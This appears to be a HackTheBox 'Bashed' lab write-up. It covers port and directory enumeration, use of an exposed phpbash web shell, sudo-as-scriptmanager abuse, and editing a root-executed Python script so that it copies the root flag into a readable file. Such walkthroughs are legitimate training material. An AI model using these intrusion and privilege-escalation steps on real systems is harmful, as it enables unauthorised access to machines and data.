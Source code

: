 ```yaml
---
layout: post
title: HackTheBox Bashed (10.10.10.68) Writeup
description: >
  Hackthebox Bashed Writeup
image: /assets/img/bashed.png
noindex: true
---
```


<center><h3>Summary</h3></center>

- Do some simple HTTP enumeration to find a custom php script
- Use the <b>phpbash.php</b> script grab user and root flag

First I start with an nmap scan
``` 
Starting Nmap 7.80 ( https://nmap.org ) at 2019-09-16 15:48 EDT
Nmap scan report for 10.10.10.68
Host is up (0.053s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.28 seconds
```
<br>
Only one port this time. Navigating to the webpage I see a nice custom webpage. A quick look aorund does reveal anything obvious

![home.png](../../resources/babe181301b2462383c3d75b7bcb6c3b.png)

Running a gobuster reveals some directories.
```bash
/images (Status: 301)
/uploads (Status: 301)
/php (Status: 301)
/css (Status: 301)
/dev (Status: 301)
/js (Status: 301)
/config.php (Status: 200)
/fonts (Status: 301)
```
<br>
Quite a few options but the one that is interesting to us is the <b>/dev</b> directory. Navigating to the directory I will see two files. <b>phpbash.min.php</b> and <b>phpbash.php</b> 

![dev.png](../../resources/fd190a94f4c944a6a1ff0e47e4d8bb77.png)

Doesnt matter which file you choose, both of them give you a custom bash shell written in php.

At this point you can grab the user flag located in <b>/user/arrexel</b>.

Now time to get the root flag. Running a quick <b>sudo -l</b> I see that the I can run sudo asa the user <b>scriptmanager</b>.

```bash
www-data@bashed
:/var/www/html/dev# sudo -l

Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```
<br>
Doing some basic enumeration around the box I noticed a strange directory name <b>/scripts</b> which is not there by default. A quick permissions check reveals that the directory is indeed owned by the user <b>scriptmanager</b>. Currently as the user <b>www-data</b> I can see there are two files in there but I are unable to read them. This is where I will use scriptmanagers sudo priviledges

```python
www-data@bashed:/# sudo -u scriptmanager cat /scripts/test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close

www-data@bashed:/# sudo -u scriptmanager cat /scripts/test.txt
testing 123!
```
Looking at both the files I can come to the conclusion that there is probably a process executing <b>test.py</b> and sending the output to <b>test.txt</b>.

What I are going to do is edit the <b>test.py</b> script to copy the contents of the root.txt file into the test.txt so I can then read it. This can be achieved with the short script below
```python
f = open("test.txt", "w")
r = open("/root/root.txt", "r")
re = r.readline()
f.write(re)
```
Now I wait for the new file to execute and if you did everything correctly than you should be able to get the root flag by reading the <b>/scripts/test.txt</b> file.
<br><br><br>
